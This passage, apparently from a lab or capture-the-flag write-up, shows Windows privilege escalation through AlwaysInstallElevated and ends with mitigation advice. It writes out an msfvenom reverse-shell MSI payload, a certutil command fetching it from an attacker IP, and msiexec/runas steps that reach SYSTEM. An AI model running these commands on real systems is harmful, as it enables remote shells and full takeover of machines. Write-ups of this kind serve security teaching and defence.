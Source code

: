 ```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.23.93.200 lport=135 -f msi -o reverse.msi
```

Transfer it using:

```powershell
certutil -urlcache -split -f http://10.23.93.200/reverse.msi
```

and run it:

```powershell
msiexec /quiet /qn /i reverse.msi
```

This didn’t work let’s try running it from new session using runas:

```powershell
runas /user:dev-datasci-lowpriv "msiexec /i C:\tools\reverse.msi”
```

> We **spawned a new process** under the low-privileged user account **from scratch**, and this **triggered Windows Installer to check the AlwaysInstallElevated keys properly**.
{: .prompt-warning }

![image.png](image%2015.png)

Now we are NT Authority\System.

## Mitigation

- **WSL (Windows Subsystem for Linux) Security Hardening**
    - **Restrict `sudo` permissions** inside WSL environments.
        
        Ensure that users cannot run arbitrary scripts as `root` without authentication (`NOPASSWD` should not be used carelessly).
        
    - **Secure mount permissions** by **restricting WSL from accessing Windows drives** via `drvfs` mount unless explicitly needed.
    - **Disable WSL integration** if it is not necessary on production or sensitive systems.
    - Regularly monitor WSL environments for **escalation paths** back into the Windows host.
- **SSH Key Management**
    - **Never store private SSH keys** unsecured inside user directories.
    - **Use passphrases** for SSH private keys to prevent easy unauthorized use if the key is found.
    - Apply **proper file permissions** (`600`) on `.ssh` folders and keys.
- A**lwaysInstallElevated Protection**
    - **Ensure AlwaysInstallElevated is disabled** (`AlwaysInstallElevated=0`) under both:
        - `HKLM\Software\Policies\Microsoft\Windows\Installer`
        - `HKCU\Software\Policies\Microsoft\Windows\Installer`
    - Perform **regular audits of Windows registry settings** to detect dangerous misconfigurations like AlwaysInstallElevated being enabled.
- **General Defensive Measures**
    - **Restrict access to open SMB shares** and avoid allowing anonymous (`null session`) access.
    - **Apply strict permissions** on sensitive folders, preventing unauthorized read/write access.
    - **Monitor for suspicious process executions**, especially `msiexec.exe` and unexpected mounting operations from WSL environments.
    - Enable **logging and alerting** for administrative activities and privilege escalations.
